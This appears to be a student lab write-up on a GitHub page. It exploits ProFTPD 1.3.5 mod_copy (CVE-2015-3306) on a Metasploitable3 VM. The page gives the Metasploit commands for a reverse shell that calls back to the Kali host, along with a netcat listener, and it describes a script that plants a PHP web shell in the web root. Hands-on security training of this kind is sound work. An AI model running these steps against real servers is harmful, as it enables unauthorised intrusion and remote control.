






## 🔍 Step 1: Finding the IP Address of Metasploitable3

We used the `ifconfig` command inside the Metasploitable3 VM to find its IP address on the NAT network.

- **Discovered IP Address:** `10.0.2.7`




### 🔁 Step 2: Verifying Network Connectivity

Before launching any attacks, we verified that the attacker machine (Kali Linux) can reach the victim machine (Metasploitable3) using the `ping` command.

- **Target IP:** `10.0.2.7`
- **Result:** Successful ping with 0% packet loss



### 🔎 Step 3: Scanning for Open Ports and Services

To discover vulnerable services running on the victim machine, we performed a full version scan using `nmap`:



 ## 📍 Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

In this step, we exploit the vulnerable **ProFTPD 1.3.5** service running on Metasploitable3 using the `unix/ftp/proftpd_modcopy_exec` module in Metasploit. The goal is to get a **reverse shell** back to our Kali machine.

---

### ✅ Summary of the Process

- **Target (Metasploitable3) IP:** `10.0.2.7`  
- **Attacker (Kali) IP:** `10.0.2.5`  
- **Vulnerable Service:** ProFTPD 1.3.5  
- **Exploit Module:** `exploit/unix/ftp/proftpd_modcopy_exec`  
- **Payload Used:** `cmd/unix/reverse_python`  
- **Writable Web Directory:** `/var/www/html`

---

### 🧰 Commands Used

```bash
# Start Metasploit
msfconsole

# Search and load the exploit module
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec

# Set RHOST and LHOST
set RHOST 10.0.2.7
set LHOST 10.0.2.5

# View available payloads and select one
show payloads
set payload cmd/unix/reverse_python

# Set the writable directory on the target
set SITEPATH /var/www/html

# (Optional) Prevent cleanup and handler issues
set AllowNoCleanup true
set DisablePayloadHandler true

# Run the exploit

exploit
```
## ✅ Step 5: Establishing a Reverse Shell to the Victim (End of Phase 1.1)


After successfully uploading the malicious PHP payload using the `mod_copy` exploit module in Metasploit, we triggered the payload by accessing it through the victim’s web server. This caused the victim (Metasploitable3) to connect back to our Kali machine, confirming a successful reverse shell.


### 🔊 Listener Setup (Attacker Side)


On Kali, we opened a Netcat listener on port `4444`:

```bash
nc -lvnp 4444
## 🔹 Task 1.2 – Running the Custom Exploit Script

After manually exploiting the FTP service in Task 1.1 using Metasploit, we now move to automating the attack using a custom Python script.

### ▶️ Step: Executing the Custom Exploit Script

We ran the following command from the `/Downloads` directory:

```bash
python3 Script.py
```

 What the Script Does
The script automates the exploitation of the vulnerable ProFTPD 1.3.5 service using the mod_copy module. Here's what it performs:

Generates a PHP reverse shell payload.

Exploits the FTP server to copy this payload into the Apache web root directory (/var/www/html/).

Provides a direct URL to the uploaded exploit:


### 📸 Custom Payload Execution via mod_copy (Script Proof )

After uploading the `exploit.php` file using the custom script, we leveraged the `mod_copy` vulnerability to manually **execute a command on the victim machine** by setting the `CMD` option in Metasploit.

We ran the following command to list the contents of the web root directory:

```bash
set CMD ls -l /var/www/html
run
```


#### Conclusion

-  **Reverse shell connection was successful.**
-  **Custom script worked as intended.**
-  **Payloads are visible in the victim’s `/var/www/html/` directory.**
-  **Task 1.2 is completed with solid proof.**


---
### 📜 What the Custom Script Does (Step-by-Step)

---

The custom Python script automates the exploitation of the **ProFTPD 1.3.5 mod_copy vulnerability** found on Metasploitable3.

#### 🔧 Script Breakdown:

1. **Generate PHP Payload:**
   - The script creates a file named `exploit.php` that contains a **simple reverse shell** or **command execution payload**.
   - This payload allows remote commands to be executed via a web browser using:
     ```
     http://<victim-ip>/exploit.php?cmd=<command>
     ```

2. **Upload Payload using ProFTPD mod_copy:**
   - The script abuses the **`SITE CPFR`** and **`SITE CPTO`** commands of the vulnerable FTP server.
   - It copies the payload from `/tmp/exploit.php` into `/var/www/html/` on the victim server.

3. **Notify the User:**
   - It tells the attacker:
     - Where the payload was placed.
     - How to trigger it (manually visit the URL).
     - How to start a Netcat listener for a reverse shell (if using reverse shell payload).

---

### 📡 Why We Chose FTP (ProFTPD mod_copy)

---

The **FTP service (ProFTPD 1.3.5)** was selected for this project for several important reasons:


#### 🔍 Known Exploit
- The vulnerability is listed as [CVE-2015-3306], which is:
  - Easy to exploit.
  - Doesn't require credentials if anonymous access is allowed.
  - Works reliably on Metasploitable3.
